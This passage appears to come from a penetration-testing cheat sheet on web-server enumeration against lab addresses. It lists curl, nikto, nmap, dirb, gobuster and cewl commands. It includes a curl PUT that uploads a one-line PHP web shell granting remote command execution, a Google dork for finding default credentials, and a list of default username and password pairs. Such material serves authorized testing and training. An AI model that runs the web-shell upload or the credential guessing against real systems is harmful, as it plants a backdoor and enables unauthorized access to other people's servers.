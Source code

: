 Check if server supports `PUT` and whether we can upload:

`curl -v -X OPTIONS http://10.10.10.140`

`curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php`

**Checking for common misconfigurations and vulnerabilities**

`nikto -h http://10.10.10.10`

Remember to also run `nikto` against any interesting directories found. If using a proxy server then:

`nikto -h http://10.10.10.10 -useproxy http://proxy:8080`

We can also launch a few nmap NSE scripts as well to round out this phase:

`nmap -vv -sV -PN -p 80 10.10.10.10 --script=http-vhosts,http-userdir-enum,http-apache-negotiation,http-backup-finder,http-config-backup,http-default-accounts,http-methods,http-method-tamper,http-passwd,http-robots.txt -oN 10.10.10.10_http.nse`

**Directory brute forcing**

After we have run the above enumeration techniques we should now attempt to discover any hidden directories on the server

`dirb http://10.10.10.140 -r -o 10.10.10.140_http.dirb`

`gobuster -u http://10.10.10.140 -w /usr/share/seclists/Discovery/Web_Content_common.txt -s '200,204,301,302,307,403,500' -e > 10.10.10.140.gobuster`

Failing this, it is definitely worth creating a custom wordlist with all available target data and running this through `drib` to catch anything else.

**Creating a custom wordlist**

`cewl -d 5 -m 2 http://10.10.10.140`

Remember to append any text you find inside images as to the custom wordlist as well!

**Default credentials check**

It always pays to check any login forms or web applications for default or weak credentials. A quick way to find default credentials via Google:

`site:webapplication.com password`

A small sample to check on the fly:

```text
admin admin
admin password
admin <blank>
admin nameofservice
root root
root admin
root password
root nameofservice
<username> password
<username> admin
<username> username
<username> nameofservice
```
